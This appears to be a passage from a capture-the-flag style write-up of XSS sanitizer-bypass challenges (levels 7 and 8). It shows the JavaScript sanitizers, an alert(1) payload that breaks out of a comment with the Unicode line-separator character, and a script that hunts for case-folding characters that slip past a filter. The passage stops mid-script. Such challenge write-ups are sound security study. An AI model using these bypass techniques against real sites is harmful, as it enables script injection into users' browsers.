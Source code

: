 (Here you can find the explanation of [Function()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function) , [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor) and [Nullish coalescing operator ??](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/Nullish_coalescing) )

# Level 7 
Sanitizer : 
```javascript
function sanitize(input) {
    // no tags, no comments, no string escapes and no new lines
    const sanitized = input.replace(/[</'\r\n]/g, '');
    return "  \x3Cscript\x3E\n// the input is '" + sanitized + "'\n  \x3C/script\x3E";
}
```

In this case our input is placed in a comment so it is not executed 
![]({{ page.img_dir | relative_url }}/xss3.png)
After some research, I found a unicode character called [Line Separator (U+2028)](https://unicodeplus.com/U+2028), this character breaks the comment line (the character is not represented by any symbol so it may look like a simple space character )
```
 alert(1) --> 
```
![]({{ page.img_dir | relative_url }}/xss5.png)
I don't know why `-->` it works as a comment in this case I did so many tests to "bypass" the second quote `'`
![]({{ page.img_dir | relative_url }}/xss4.png)

# Level 8
Sanitizer : 
```javascript
function sanitize(input) {
    let sanitized = input;
    do{
        input = sanitized;
        // no opening tags
        sanitized = input.replace(/<[a-zA-Z]/g, '')
    } while (input != sanitized)
    sanitized = sanitized.toUpperCase();
    do{
        input = sanitized;
        // no script
        sanitized = input.replace(/SCRIPT/g, '')
    } while (input != sanitized)
    return sanitized.toLowerCase();
}
```
this script removes all `script` words and any alphabetic characters (a-z , A-Z) after `<` 
![]({{ page.img_dir | relative_url }}/xss6.png)
The interesting part is that the script uses first `toUpperCase()` and after `toLowerCase()`, so we can find unicode lowercase characters that share the same uppercase character, to find them I used a small script in JS :
```javascript
for (let i = 0; i < 65536; i++) {
    let i_start=String.fromCharCode(i)
    let i_upper = String.fromCharCode(i).toUpperCase();
    let i_lower = i_upper.toLowerCase();
    if (i_lower == "i"){ //change "i" to the character you want to test  
        console.log(i,i_start, i_upper, i_lower);
    }
```